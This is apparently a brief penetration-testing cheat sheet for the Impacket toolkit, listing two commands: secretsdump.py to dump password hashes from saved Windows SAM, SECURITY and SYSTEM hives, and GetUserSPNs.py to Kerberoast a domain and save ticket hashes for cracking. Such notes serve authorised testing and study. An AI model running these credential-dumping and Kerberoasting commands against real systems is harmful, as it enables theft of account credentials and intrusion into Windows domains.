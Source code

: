 # Impacket

% impacket, windows, smb, 445

## impacket-secretsdump - Dump password hashes from SAM
```
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
## impacket-GetUserSPN - Kerberoasting
```
# Kerberosting
GetUserSPNs.py <DOMAIN>/<USER>:<PASSWD> -outputfile kerberoasting.txt -dc-ip <DC IP>
```
